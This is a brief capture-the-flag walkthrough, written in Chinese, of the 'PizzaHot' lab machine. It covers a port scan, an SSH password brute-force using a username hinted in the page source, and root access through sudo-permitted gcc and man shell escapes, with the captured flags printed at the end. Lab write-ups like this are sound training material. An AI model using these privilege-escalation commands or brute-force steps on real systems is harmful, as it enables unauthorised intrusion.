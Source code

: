 # PizzaHot

2025.03.06 https://thehackerslabs.com/pizzahot/

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 web 源代码发现提示：Puedes creer que hay fanáticos de la pizza de piña que se ponen de usuario pizzapiña 说有个用户名 pizzapiña , 没有 vhost 也没发现其他目录，发现了这个提交邮件的连接 http://pizzahot.thl/forms/contact.php 和 http://pizzahot.thl/forms/book-a-table.php 但是都没什么信息暴露出来。

只好先用 pizzapiña 爆破下 ssh 登陆密码：

```
[22][ssh] host: 192.168.5.39   login: pizzapiña   password: steven
```

进行 ssh 登陆, sudo -l 发现 (pizzasinpiña) /usr/bin/gcc 切换到这个用户：

```
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

进入到 home，拿到 user flag:

```
$ cat user.txt
30b8126445b2c50488528c8a78416b0d
```

再次 sudo -l 显示：

```
(root) NOPASSWD: /usr/bin/man
(ALL) NOPASSWD: /usr/bin/sudo -l
```

可以直接提到 root：

```
sudo man man
!/bin/sh
```

拿到 root flag：

```
# cat root.txt
b41668f520aa366c275391ddd0a47683
```
